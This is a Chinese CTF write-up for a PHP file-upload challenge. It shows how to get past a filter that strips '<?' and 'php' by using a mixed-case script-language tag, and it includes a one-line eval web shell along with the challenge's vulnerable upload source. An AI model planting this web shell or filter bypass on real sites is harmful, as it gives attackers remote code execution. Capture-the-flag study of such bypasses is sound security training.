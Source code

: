 ```yaml
---
title: WebUpload
date: 2018-02-02 00:00:00
categories:
- CTF/Web
tags: 百度杯九月 php黑魔法
---
```


## 随意上传

- 不会更改文件名
- 针对文件内容有过滤
    - php
    - <?

## php可被解析的四种格式

- `<?php echo 1;?>`
- `<? echo 1;?>`
- `＜script language="php"＞echo 1;＜/script＞`
- `<% echo 1; %>`

## 绕过
```php
<script language="pHP">@eval($_POST['a']);</script> 
```


## 过滤源码分析

```php

<?php
  if($_SERVER["REQUEST_METHOD"] === "POST") :
?>
<?php
    if (is_uploaded_file($_FILES["file"]["tmp_name"])):
      $file = $_FILES['file'];
      $name = $file['name'];
      if (preg_match("/^[a-zA-Z0-9]+\\.[a-zA-Z0-9]+$/", $name) ):
        $data = file_get_contents($file['tmp_name']);
        while($next = preg_replace("/<\\?/", "", $data)){
          $next = preg_replace("/php/", "", $next);
          if($data === $next) break;
          $data = $next;
        }
        file_put_contents(dirname(__FILE__) . '/u/' . $name, $data);
        chmod(dirname(__FILE__) . '/u/' . $name, 0644);
?>
        <div>
          <a href="<?php echo htmlspecialchars("u/" . $name)?>">上传成功!</a>
        </div>
<?php
      endif;
    endif;
?>
<?php
  endif;
?>
```

## 参考

> 那些强悍的PHP一句话后门   
>[http://netsecurity.51cto.com/art/201305/393110_2.htm](http://netsecurity.51cto.com/art/201305/393110_2.htm)